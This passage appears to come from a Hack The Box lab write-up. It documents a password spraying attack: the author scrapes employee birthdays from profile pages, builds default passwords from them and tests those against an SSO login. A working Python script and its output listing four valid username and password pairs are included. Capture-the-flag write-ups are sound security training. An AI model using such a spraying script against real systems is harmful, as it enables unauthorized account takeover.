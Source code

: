 ```python
```

After running the script, I could access all stored files. One of the files stood out as it was different from the rest.
![](Pasted%20image%2020251009102135.png)

### Password Spraying
In the the PDF, the default password format was detailed. 
![](Pasted%20image%2020251009103743.png)

From earlier enumeration, I knew employee profiles were publicly accessible at `/employee/<id>`, and their birthday information was displayed. This allowed me to construct and test default passwords for all users.

I put together a Python script to automate the process.
```python
import requests
import re

URL = "http://people.corporate.htb/sharing"
headers = {"Content-Type": "application/x-www-form-urlencoded"}
cookies = {"CorporateSSO": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3NywibmFtZSI6IkNlY2VsaWEiLCJzdXJuYW1lIjoiV2VzdCIsImVtYWlsIjoiQ2VjZWxpYS5XZXN0QGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3NTk5Njc0MTEsImV4cCI6MTc2MDA1MzgxMX0.KKmXmFpKL9sWQxNvJuLlhU-oEoze8Ron2glYzl8go-M"}

for i in range(5000, 5100):
    url = f"http://people.corporate.htb/employee/{i}"
    r = requests.get(url=url, cookies=cookies, headers=headers)
    if "Sorry, we couldn't find that employee!" in r.text:
        print(f"[!] Invalid user id - {i}")
        continue
    user = re.findall(r"(\w+\.\w+)@corporate.htb", r.text)[0]
    birthday = re.findall(r"(\d+/\d+/\d{4}).*", r.text)[0]
    m, d ,y = birthday.split('/')
    password = f"CorporateStarter{d.zfill(2)}{m.zfill(2)}{y}"
    print(f"\r[*] Got id {i}: {user}:{password}           ", end="")

    r = requests.post("http://sso.corporate.htb/login", data={"username": user, "password": password})
    if "Welcome to Corporate SSO Services" in r.text:
        print(f"\r[+] Found valid login {i}: {user}:{password}")
```

I ran the script and found 4 valid logins.
```
❯ python check_default.py
[!] Invalid user id - 5000
[+] Found valid login 5021: elwin.jones:CorporateStarter04041987
[+] Found valid login 5041: laurie.casper:CorporateStarter18111959
[+] Found valid login 5055: nya.little:CorporateStarter21061965
[+] Found valid login 5068: brody.wiza:CorporateStarter14071992
[*] Got id 5078: rosalee.schmitt:CorporateStarter04071990           
[!] Invalid user id - 5079
[!] Invalid user id - 5080
[!] Invalid user id - 5081
<SNIP>
```
